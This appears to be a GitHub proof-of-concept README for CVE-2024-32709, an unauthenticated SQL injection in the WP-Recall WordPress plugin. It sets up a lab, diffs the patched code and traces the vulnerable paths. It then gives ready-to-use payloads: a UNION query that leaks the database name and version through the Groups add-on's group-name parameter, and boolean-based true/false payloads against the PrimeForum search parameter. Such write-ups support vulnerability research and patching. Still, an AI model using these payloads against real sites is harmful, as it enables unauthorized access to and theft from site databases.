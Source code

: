 # CVE-2024-32709-Poc
WP-Recall – Registration, Profile, Commerce & More <= 16.26.5 - Unauthenticated SQL Injection
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-recall/wp-recall-registration-profile-commerce-more-16265-unauthenticated-sql-injection

Build wordpress: docker-compose -f stack.yml up

wp-recall.16.26.5.zip: https://github.com/truonghuuphuc/CVE-2024-32709-Poc/blob/main/wp-recall.16.26.5.zip

wp-recall.16.26.6.zip: https://github.com/truonghuuphuc/CVE-2024-32709-Poc/blob/main/wp-recall.16.26.6.zip

Diff wp-recall.16.26.5 vs wp-recall.16.26.6
- File: wp-recall\add-on\groups\classes\class-rcl-groups-list.php (Add-on Groups) 
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/511b6a50-f3c1-46a1-9255-c17ca6a3db25)

- File: wp-recall\add-on\prime-forum\classes\class-prime-query.php (Add-on PrimeForum)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/17374412-1785-479a-935b-6dae5bd09628)

- File: wp-recall\add-on\rating-system\core.php (Add on Rating System)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/29caf464-9806-4629-a54f-ce23bdcfe91f)

Note: After install wp-recall Default Config
- Add-on Groups default: Inactive
- Add-on PrimeForum default: Inactive
- Add-on Rating System default: Active
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/a85b594d-8834-4d5e-903b-c437a672a672)


### Exploit Unauthenticated SQL Injection Add-on Groups (Require status: Active)
Step 1 File: wp-recall\add-on\groups\classes\class-rcl-groups-list.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/a17a621d-0d46-4a95-9956-07ca25c9af15)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/1dfbfa19-4892-4425-9030-60f2a45bebfe)

Step 2: Search Initialize the object with class `Rcl_Groups_List` with keyword "new Rcl_Groups_List("
- File: add-on\groups\shortcodes.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/403602b0-bcc8-48c0-bf78-67e3450a8e83)

Step 3: Search for functions that call the function rcl_get_grouplist
- File: add-on\groups\index.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/bcc8eb18-ac54-4661-a85c-6a0ba5d85ed7)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/7ae255a2-3dfd-415d-8580-b93a42576d30)

### Payload: ``` <Host>/account/?user=1&tab=groups&group-name=p'+or+'%'='%'+union+all+select+1,2,3,4,5,6,7,8,9,10,11,concat("Database:",database(),0x7c,"Version:",version()),13--+- ```
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/1d12761c-291c-410f-a0f1-f627c902d3e5)

### Exploit Unauthenticated SQL Injection Add-on PrimeForum (Require status: Active)
Step 1 File: wp-recall\add-on\prime-forum\classes\class-prime-query.php => function setup_child_items()
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/c12fae0c-d071-4f90-b560-bb9959657a75)

Step 2: Search Initialize the object with class `PrimeQuery` with keyword "new PrimeQuery("
- File: add-on\prime-forum\index.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/4899cc05-e2e7-441e-8557-cd8b11654e71)

- File: wp-recall\add-on\prime-forum\classes\class-prime-query.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/c48f6aab-c32c-4c04-893f-77e2afc187a4)

### Exploit Boolean-based SQL injection
Payload condition true: ``` /forum/?fs=.%'+or+if(1=1,'%',1)=' ```
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/2ffe72eb-59c5-4a38-b817-2d6520632a01)

Payload condition false: ``` /forum/?fs=.%'+or+if(1=2,'%',1)=' ```
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/3b43180d-dd15-4464-8b80-69110911028a)

### Exploit Add-on Rating System: (Comming Soon) ```[ratinglist days="{injection}"] ```
